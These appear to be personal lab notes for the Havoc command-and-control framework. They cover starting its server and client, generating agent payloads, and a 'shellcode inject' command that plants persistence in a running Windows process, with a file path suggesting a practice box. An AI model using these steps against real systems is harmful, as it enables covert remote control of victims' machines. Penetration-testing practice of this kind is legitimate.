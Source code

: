 # Quick Start: Havoc Server and Client

## Starting the Server
1. Navigate to the Havoc directory:
    ```bash
    cd Havoc
    ```
2. Start the server:
    ```bash
    ./havoc server -d
    ```
- `-d` for default profile

## Launching the Client
1. Navigate to the Havoc directory:
    ```bash
    cd Havoc
    ```
2. Launch the client:
    ```bash
    ./havoc client
    ```
## Creación de agentes
- Attack => Payload => Hay que elegir el tipo de payload que queremos
    - .exe
    - .dll
    - .bin

### Persistencia inyectando shellcode dentro de un proceso
- Para ver los procesos activos dale a file explorer => process list
- Para armar el payload vamos a Attack => Payload => Windows Shellcode
- `shellcode inject x64 2668 /home/kali/Desktop/boxes/flight/inject.bin`